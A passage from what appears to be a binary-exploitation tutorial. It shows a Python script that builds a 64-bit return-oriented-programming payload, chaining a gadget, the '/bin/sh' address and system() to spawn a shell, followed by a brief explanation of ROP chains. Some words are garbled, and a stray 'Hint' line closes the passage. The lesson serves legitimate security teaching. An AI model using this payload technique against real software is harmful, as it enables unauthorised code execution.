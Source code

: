 Putting everything together, we have an attack that looks very similar to how
we exploited the 32-bit binary. The bi****G*** difference is that added the additional
step to call our gadget and load the address of "/bin/sh" into `rdi`. 

```python
#file: rop.py
#output: r64.in
import struct
import sys

gadget_addr = 0x00000000004005b3
buff_addr = 0x7fffffffd560
ret_addr = 0x7fffffffd5a8
command_addr = 0x7ffff7b99d57
system_addr = 0x7ffff7a52390

padding_len = ret_addr - buff_addr

sys.stdout.write('a'*padding_len+struct.pack("<Q", gadget_addr) + struct.pack("<Q", command_addr)+ struct.pack("<Q", system_addr))

```

We got lucky in this case because we only needed to use a single gadget to set
up our register. In many cases, we may have to string together multiple gadgets
into a single **ROP chain** to achieve the desired results---for example,
imagine what we'd need to do if we are calling a function that requires
multiple arguments.

Hint: Make sure to read every character, in order, top to bottom.

